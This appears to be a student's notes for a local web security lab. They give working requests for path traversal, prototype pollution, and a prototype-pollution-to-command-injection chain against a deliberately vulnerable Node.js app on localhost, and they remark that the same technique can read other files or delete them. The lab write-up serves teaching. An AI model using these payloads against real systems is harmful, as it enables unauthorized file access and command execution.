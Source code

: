 # Web Security Lab - Notes

# Setup

1. Install Node.js.
2. `cd` into the `src` folder, and run `npm install`.
3. Run `node app.js`.
4. Go to `http://localhost:80` in your browser.

Alternatively, you can use Docker:

    docker-compose up -d
    open http://127.0.0.1:8083/

# Experiments

These challenges have three vulnerabilities: OS command injection, prototype pollution and path traversal. Your task is to find out what you can do with these vulnerabilities.


# Tasks 1-4:
To make the following requests, I build HTTP Requests using Powershell's Invoke-WebRequest and its associated 

1. Path Traversal Exploit:

   ```PowerShell
   $postParams = @{id="../../README.md"}
   Invoke-WebRequest -Uri http://localhost:80/img -Method GET -Body $postParams
   ```
   This example specifically hits this README, but you can use this to access further files on the user's system.

2. Prototype Pollution Exploit:
 ```
 POST: http://localhost/edit_note
 Body, JSON Format:
 {
		"id": "__proto__",
		"author": "{}",
		"raw": "{}"
}
 ```

3. OS Command Injection
```
POST: http://localhost/edit_note
Body, JSON Format:
{
		"id": "__proto__",
		"author": "ps aux | grep node > example.txt",
		"raw": "cat example.txt"
}
GET: http://localhost/status
```
What the above does pollutes the base object with these extra commands. When running status, the extra commands are put in the list and executed by exec(), which enact these benign commands and makes a file.
You can easily delete files you are not supposed to access.

4. Patching the Prototype Pollution:

To run the pathched code, please use `node app_patched.js`.
